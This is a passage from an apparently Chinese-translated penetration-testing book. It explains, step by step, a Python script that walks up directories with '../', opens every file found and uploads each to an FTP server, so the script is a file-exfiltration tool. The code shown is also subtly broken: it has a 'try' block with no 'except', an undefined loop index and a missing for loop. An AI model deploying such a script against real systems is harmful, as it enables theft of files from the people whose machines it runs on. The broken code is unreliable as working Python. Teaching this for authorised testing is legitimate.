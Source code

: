 然后，我们使用 IP 地址和通过标志设置的凭据连接到 FTP。您也可以将 IP 作为`sys.argv`传递，以避免硬编码：

```py
ftp = FTP("127.0.0.1", user, pw)
```

我为目录检查方法设置了一个与第一个目录不匹配的 nonce 值。我们还将循环设置为`0`，并将“up directory”命令配置为变量，类似于[第 3 章](3.html "Chapter 3. Vulnerability Identification")、*漏洞识别*中的目录遍历脚本：

```py
filescheck = "aa"

loop = 0
up = "../"
```

然后我们创建我们的主循环以永远重复，并创建我们选择的目录调用。我们在调用的目录中列出文件，并为其分配一个变量。如果愿意，您可以选择在此处打印文件列表，就像我出于诊断目的所做的那样，但这没有什么区别：

```py
while 1:
  files = os.listdir("./"+(i*up))
  print files
```

对于在目录中检测到的每个文件，我们将尝试打开它。我们使用`rb`打开文件很重要，因为这样可以将其作为二进制文件读取，从而可以作为二进制文件传输。如果它是可打开的，我们使用`storbinary`命令将其传输到 FTP。然后，我们关闭文件以完成交易：

```py
  try:
      fiile = open(f, 'rb')
      ftp.storbinary('STOR ftpfiles/00'+str(f), fiile)
      fiile.close()
```

如果出于任何原因，我们无法打开或传输文件，我们只需转到列表中的下一个：

```py
  else:
      pass
```

然后检查自上一个命令以来是否更改了目录。如果没有，我们将中断主循环：

```py
if filescheck == files:
    break
```

如果目录列表不匹配，我们将`filecheck`变量设置为与当前目录匹配，通过`1`迭代循环，并休眠`10`秒，以避免滥发服务器：

```py
else:
    filescheck = files
    loop = loop+1
    time.sleep(10)
```

最后，完成所有其他操作后，我们将关闭与 FTP 服务器的连接：

```py
ftp.close()
```

